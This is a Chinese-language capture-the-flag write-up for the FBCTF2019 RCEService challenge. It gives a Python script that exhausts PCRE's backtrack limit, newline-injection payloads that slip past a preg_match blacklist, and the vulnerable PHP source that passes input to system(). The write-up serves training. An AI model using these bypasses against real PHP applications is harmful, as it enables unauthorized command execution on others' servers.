



# [FBCTF2019]RCEService

## 知识点

`preg_match回溯次数限制绕过`

`preg_match多行绕过`

## 解题

进入题目首页看到


简单传了一个`json`格式的`RCE` `{"cmd":"ls"}`



### 1.PCRE回溯次数限制绕过

发现可以执行命令，但是后续进一步全被过滤了，尝试使用[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)，因为这题`GET`和`POST`传值均可，但是只能`POST`传，`GET`传值会`414`，而且要用绝对路径的命令，相对路径其实后面在源码里重新修改了环境变量导致相对路径的变量不可用，即`cat`变为`/bin/cat`，`payload`如下

```python
import requests

payload = '{"cmd":"/bin/cat index.php","a":"' + 'a'*1000000 + '"}'
resp = requests.post('http://ca5c3751-06a2-4388-8294-c272e1775a7f.node5.buuoj.cn:81/', data={"cmd":payload})
print(resp.text)
```



```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

因为根目录没有找到`flag`，看到设置了环境变量的路径，找了一下,`/bin/ls /home/rceservice/`，发现`flag`在`/home/rceservice`下
直接`/bin/cat /home/rceservice/flag`即可获取`flag`

看到源码还有另一种方法

### 2.preg_match绕过

因为`preg_match`只能匹配单行，我们多行绕过即可

```
{%0a"cmd":"ls"%0a}

{%0a"cmd":"/bin/cat /home/rceservice/flag"%0a}
```

